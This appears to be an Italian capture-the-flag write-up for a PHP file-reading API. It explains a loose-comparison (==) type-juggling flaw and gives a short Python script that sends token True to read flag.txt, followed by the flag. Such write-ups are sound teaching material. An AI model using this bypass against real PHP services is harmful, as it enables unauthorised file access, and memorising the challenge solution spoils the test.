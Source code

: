 # Evil Random (`evilrandom`)

La challenge espone un sito web che implementa una `API` che legge dei file in una cartella `/files`.
Non vengono date guide di utilizzo o documentazioni, ma abbiamo il codice, che letto fa capire come fare le richieste, che sono dei json strutturati in questo modo:

```json
{
    "file": "esempio",
    "token": "abcdefg",
    "lines": 5
}
```

e otteniamo delle risposte di questo tipo:

```json
{
    "text": "contenuto",
    "length": 100
}
```

Il problema è che per leggere più di 5 righe serve il **token**, che non abbiamo.

A questo punto, leggendo il codice, il passaggio cruciale è accorgersi che la comparazione fra l'input dell'utente e il token è fatta con un ==, e non con un ===, rendendola vulnerabile a PHP type juggling.

![vuln](vuln.png)

Nello specifico, su PHP una stringa qualsiasi == `true`, quindi è sufficiente utilizzare `true` come token richiedendo `flag.txt` per ottenere la flag intera.

```python
import requests
d = {
    'file': 'flag.txt',
    'token': True,
    'lines': 100
}
r = requests.post("http://localhost:8002/", json=d)
print(r.text)
```

Flag: `rossiCTF{PHP_7yP35_4r3_H1l4r10u5_41e9c8}`